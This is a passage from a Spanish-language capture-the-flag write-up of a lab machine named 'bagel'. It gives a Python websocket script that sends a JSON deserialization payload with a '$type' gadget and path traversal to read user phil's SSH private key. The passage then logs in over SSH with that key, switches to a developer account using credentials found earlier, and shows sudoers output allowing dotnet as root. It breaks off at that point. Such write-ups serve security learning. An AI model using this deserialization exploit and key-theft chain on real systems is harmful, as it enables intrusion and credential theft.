 ```bash
$nano exploitjsondes.py
```

```python
import json,websocket
ws = websocket.WebSocket()    
ws.connect("ws://10.129.21.151:5000/") # connect to order app
order = { "RemoveOrder" : {"$type":"bagel_server.File, bagel", "ReadFile":"../../../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

###### NOTA: Los parámetros "bagel_server.File" "bagel" los podemos encontrar en el mismo archivo "bagel.dll" con "ILspy".

- El valor del atributo "$type" es una cadena de caracteres que indica el tipo del objeto, y en este caso, el valor es "bagel_server.File, bagel". El valor del atributo "ReadFile" ( que habíamos encontrado en el análisis del dll) es una cadena de caracteres que indica la ruta de un archivo en el sistema de archivos del servidor.

- Ejecutamos la script que hemos creado y obtenemos el contenido del archivo `"id_rsa"` del usuario "phil":

```bash
$python3 exploitjsondes.py
```

- Ahora con la clave privada del usuario "phil" podemos acceder via `SSH` sin contraseña:

```bash
$nano id_rsa
$chmod +600 id_rsa
$ssh -i id_rsa phil@10.129.21.151
```

- Habremos ganado acceso al sistema como "phil".


# ESCALANDO PRIVILEGIOS:

- En el análisis del archivo "bagel.dll" habíamos encontrado `credenciales` para un supuesto usuario "dev", intentamos pivotar con esta credencial al usuario "developer".

```bash
$su developer
```

- Como el usuario developer, listamos los permisos de `sudoers` y vemos lo siguiente:

```bash
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin
User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

